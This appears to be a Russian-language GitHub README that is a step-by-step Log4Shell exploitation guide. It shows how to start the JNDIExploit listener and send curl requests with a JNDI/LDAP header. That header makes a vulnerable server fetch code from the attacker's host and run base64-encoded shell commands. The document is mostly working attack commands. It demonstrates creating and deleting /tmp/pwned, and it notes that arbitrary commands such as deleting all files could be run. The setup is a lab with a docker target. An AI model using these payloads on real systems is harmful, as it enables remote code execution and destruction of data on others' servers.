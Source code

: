 # alex_programms
новая уязвимость log4shell

Установка эксплоита:
Переходим в папку загрузок и распаковываем архив:

unzip JNDIExploit.v1.2.zip

Далее вводим эту команду для прослушки 1389 и 8888 портов:

java -jar JNDIExploit-1.2-SNAPSHOT.jar -i LOCAL_IP -p 8888 
Где LOCAL_IP - IP-адрес атакующего.


Атака на сервер:
Итак, у нас есть уязвимый сервер и эксплоит для него. Теперь вводим эту команду:

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://LOCAL_IP:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
Где 127.0.0.1:8080 - IP жертвы (сервера), а LOCAL_IP - IP-адрес атакующего.

Эта команда отправляет запрос на сервер для удалённого выполнения команды в виде base64. Где "dG91Y2ggL3RtcC9wd25lZAo=" - и есть команда. При расшифровке можно понять, что она делает:


Команда создаёт файл по пути /tmp с названием pwned. После её выполнения в терминале отобразится текст "Hello, world!".


Чтобы проверить, выполнена ли команда на сервере, проверяем на нём файлы:

docker exec vulnerable-app ls /tmp
Должен отобразится файл pwned.


Вместо команды, показанной в примере, можно выполнить любую другую. Например перезапуск сервера, запуск другого эксплоита, удаление всех файлов и тд. 

Предположим у нас стоит задача теперь удалить файл pwned, который мы создали. Для этого будет такая команда:

cd /tmp && rm pwned 
Чтобы её запустить на атакуемом сервере, нужно открыть какой-нибудь base64 декодер и зашифровать её:


Копируем результат и вставляем в эту команду:

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://LOCAL_IP:1389/Basic/Command/Base64/Base64_code}'
Где 

127.0.0.1:8080 - IP жертвы (сервера), 

LOCAL_IP - IP-адрес атакующего, 

а Base64_code - скопированный раннее результат (сюда и нужно вставить результат).



У меня получилась такая команда:

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://10.0.2.15:1389/Basic/Command/Base64/Y2QgL3RtcCAmJiBybSBwd25lZCA=}'
    

